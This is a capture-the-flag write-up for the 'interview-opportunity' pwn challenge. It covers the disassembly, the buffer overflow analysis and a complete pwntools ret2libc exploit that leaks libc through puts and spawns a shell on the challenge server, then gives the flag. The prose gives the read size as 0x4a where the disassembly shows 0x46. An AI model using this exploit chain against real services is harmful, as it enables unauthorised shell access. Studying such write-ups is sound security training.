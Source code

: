 # interview-opportunity

## Challenge

The program prints an opening message and prompts for user input.

Input is printed back to the user, then the program exits.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

If we disassemble the `main` function, we find that it reads more bytes than the buffer can hold.

```asm
[0x004010a0]> pdf @ main
            ; DATA XREF from entry0 @ 0x4010c1
┌ 102: int main (int argc, char **argv);
│           ; var char *buf @ rbp-0x1a
│           ; var char **var_10h @ rbp-0x10
│           ; var int64_t var_4h @ rbp-0x4
│           ; arg int argc @ rdi
│           ; arg char **argv @ rsi
│           0x00401240      55             push rbp
│           0x00401241      4889e5         mov rbp, rsp
│           0x00401244      4883ec20       sub rsp, 0x20
│           0x00401248      897dfc         mov dword [var_4h], edi     ; argc
│           0x0040124b      488975f0       mov qword [var_10h], rsi    ; argv
│           0x0040124f      e86cffffff     call sym.env_setup
│           0x00401254      48bf2a204000.  movabs rdi, str.Thank_you_for_you_interest_in_applying_to_DiceGang._We_need_great_pwners_like_you_to_continue_our_traditions_and_competition_against_perfect_blue._n ; 0x40202a ; "Thank you for you interest in applying to DiceGang. We need great pwners like you to continue our traditions and competition against perfect blue.\n" ; const char *format
│           0x0040125e      b000           mov al, 0
│           0x00401260      e8dbfdffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00401265      48bfbe204000.  movabs rdi, str.So_tell_us._Why_should_you_join_DiceGang__n ; 0x4020be ; "So tell us. Why should you join DiceGang?\n" ; const char *format
│           0x0040126f      b000           mov al, 0
│           0x00401271      e8cafdffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00401276      488d75e6       lea rsi, [buf]              ; void *buf
│           0x0040127a      31ff           xor edi, edi                ; int fildes
│           0x0040127c      ba46000000     mov edx, 0x46               ; 'F' ; 70 ; size_t nbyte
│           0x00401281      e8dafdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x00401286      48bfe9204000.  movabs rdi, str.Hello:_     ; 0x4020e9 ; "Hello: " ; const char *s
│           0x00401290      e89bfdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401295      488d7de6       lea rdi, [buf]              ; const char *s
│           0x00401299      e892fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0040129e      31c0           xor eax, eax
│           0x004012a0      4883c420       add rsp, 0x20
│           0x004012a4      5d             pop rbp
└           0x004012a5      c3             ret
```

The function reads 0x4a bytes into a buffer of size 0xa.
PIE is disabled and there is no canary, so ret2libc is trivial here.

We can use the buffer overflow to overwrite the return address and control RIP.

Our ropchain leaks the libc address by calling `puts` and passing it the GOT entry of `puts`.
This will print the address of `puts` in libc, which we can use to calculate the base address.
We then return to main so we can create a second ropchain to spawn a shell.

Once we have read the libc leak, we calculate the addresses of `system` and `"/bin/sh"` within libc.
We use the same buffer overflow to call `system("/bin/sh")` and spawn a shell.
Now we can read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mc.ax --port 31081 interview-opportunity
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('interview-opportunity')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 31081)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

rop = ROP(exe)

payload = flat({
    0x0: 0,
    0x1a+0x8: [
        rop.find_gadget(['pop rdi', 'ret'])[0],
        exe.got['puts'],
        exe.plt['puts'],
        exe.sym['main'],
        ],
    })

io.sendlineafter(b"So tell us. Why should you join DiceGang?\n", payload)
io.recvuntil(b"Hello: \n\n")

libc.address = unpack(io.recvuntil(b"\n", drop=True).ljust(8, b'\x00')) - libc.sym['puts']
io.success(hex(libc.address))

payload = flat({
    0x0: 0,
    0x1a+0x8: [
        rop.find_gadget(['pop rdi', 'ret'])[0],
        next(libc.search(b"/bin/sh")),
        libc.sym['system'],
        ],
    })

io.sendlineafter(b"So tell us. Why should you join DiceGang?\n", payload)
io.recvuntil(b"Hello: \n\n")

io.interactive()
```

## Flag

```
dice{0ur_f16h7_70_b347_p3rf3c7_blu3_5h4ll_c0n71nu3}
```

